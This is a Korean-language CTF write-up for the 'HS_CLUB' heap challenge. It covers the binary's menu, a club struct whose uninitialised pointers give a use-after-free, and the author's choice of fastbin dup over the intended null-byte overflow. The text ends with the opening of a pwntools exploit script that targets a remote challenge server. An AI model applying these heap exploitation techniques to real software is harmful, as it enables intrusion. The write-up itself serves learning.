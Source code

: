### Introduction
사실 이것도 힌트를보면 sub_4009e0에 취약점이 있다고 하는데 아마 1바이트 null overflow를 말하는것 같다. 그 취약점을 바이너리 열자마자 보긴했는데, 만약 저걸로 익스하면 unsafe unlink로 익스해야하고 힙 풍수를 맞춰주는게 귀찮아서 fastbin dup로 풀었다. 이것도 정풀이는 아닌듯싶다. 아마 첫번째로 생각한 방법이 출제자의 의도였을것이라 생각한다.

### Reversing
1. add (학생을 할당한다)
2. delete (해제)
3. edit (수정)
4. view (보기)
5. club (club 메뉴)
	1. Add (Club 추가)
	2. Delete (삭제)
	3. Edit (수정)
	4. view (보기)
	5. Join (학생을 이 클럽에 가입시킴)
	6. Back
	
### Exploit
Club을 추가할 때 UAF가 발생한다. Club의 구조체는 아래와 같다.
```c
struct club
{
  char *club_name;
  __int64 *club_name_size;
  __int64 *student1;
  __int64 *student2;
  __int64 *student3;
  __int64 *student4;
  __int64 *student5;
  __int64 *club1;
  __int64 *club2;
  __int64 *club3;
  __int64 *club4;
  __int64 *club5;
};
```
이 구조체에서 club1~5와 student1~5를 초기화하지않아서 UAF가 발생하는데, 그러면 자유롭게 free와 leak을 할 수 있게된다. 그래서 바로 fastbin dup로 익스했다.

```python
from pwn import *

#s = process('./HS_CLUB')
s = remote('222.110.147.52',35163)
e = ELF('./HS_CLUB')
l = ELF('/lib/x86_64-linux-gnu/libc.so.6')

def add(size,content):
	s.sendlineafter('> ','1')
	s.sendlineafter('> ',size)
	sleep(0.05)
	s.sendline(content)

def club_add(size,content,track,you_track):
	s.sendlineafter('> ','1')
	s.sendlineafter('> ',size)
	s.sendlineafter('> ',content)
	s.sendlineafter('> ',track)
	s.sendlineafter('> ',you_track)



```